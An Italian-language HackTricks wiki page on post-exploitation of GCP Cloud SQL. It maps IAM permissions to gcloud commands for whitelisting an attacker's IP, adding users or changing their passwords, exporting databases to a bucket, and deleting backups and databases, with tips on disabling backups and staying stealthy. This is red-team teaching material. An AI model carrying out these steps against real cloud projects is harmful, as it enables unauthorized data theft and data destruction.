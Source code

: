 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Per ulteriori informazioni su Cloud SQL controlla:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Per connettersi ai database è **sufficiente avere accesso alla porta del database** e conoscere il **nome utente** e la **password**, non ci sono requisiti IAM. Quindi, un modo semplice per ottenere accesso, supponendo che il database abbia un indirizzo IP pubblico, è aggiornare le reti consentite e **permettere al proprio indirizzo IP di accedervi**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
È anche possibile utilizzare **`--no-backup`** per **interrompere i backup** del database.

Poiché questi sono i requisiti, non sono completamente sicuro a cosa servano i permessi **`cloudsql.instances.connect`** e **`cloudsql.instances.login`**. Se lo sai, invia una PR!

### `cloudsql.users.list`

Ottieni un **elenco di tutti gli utenti** del database:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Questo permesso consente di **creare un nuovo utente all'interno** del database:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Questo permesso consente di **aggiornare l'utente all'interno** del database. Ad esempio, puoi cambiare la sua password:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

I backup potrebbero contenere **vecchie informazioni sensibili**, quindi è interessante controllarli.\
**Ripristina un backup** all'interno di un database:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Per farlo in modo più furtivo, è consigliabile creare una nuova istanza SQL e recuperare i dati lì invece che nei database attualmente in esecuzione.

### `cloudsql.backupRuns.delete`

Questo permesso consente di eliminare i backup:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Esporta un database** in un Cloud Storage Bucket in modo da poterlo accedere da lì:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importa un database** (sovrascrivi) da un Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Elimina un database dall'istanza db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Impara e pratica il hacking su AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking su GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
